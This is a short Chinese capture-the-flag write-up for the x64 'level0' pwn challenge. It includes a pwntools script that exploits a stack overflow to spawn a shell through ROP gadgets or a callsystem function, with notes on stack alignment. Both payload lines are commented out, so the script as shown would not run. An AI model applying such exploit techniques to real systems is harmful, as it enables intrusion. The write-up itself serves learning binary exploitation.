




# level0

检查程序保护



查看反汇编







很明显存在栈溢出，该题是x64，在写payload的时候遇到了一些小问题，具体如下

```python
from pwn import *
import time 

sh = process('./level0')
elf = ELF('./level0')
callsys_addr = elf.symbols['callsystem']
#gdb.attach(sh)
#sleep(15)

pop_rdi_ret = 0x400663
binsh = 0x400684
system_addr = 0x400460

sh.recvline()
#第一种试想构造参数然后调用system函数，但是程序遇到movaps指令需要栈对齐，目前没想到解决方案
#payload = flat([b'a'*136,p64(pop_rdi_ret),p64(binsh),p64(system_addr),p64(0xcafecafecafecafe)])

#第二种方法直接调用程序里写的callsystem函数，注意栈对齐
#跳过push rbp 保证movaps指令将XMM寄存器中的值存储到内存时，目标地址按照16字节对齐
#payload = flat([b'a'*136,p64(callsys_addr+1)])

sh.sendline(payload)
sh.interactive()
```


总结：这是练习的第一道x64题目，整体思路没变，但是细节方面需要多加注意，栈对齐问题目前还没有解决

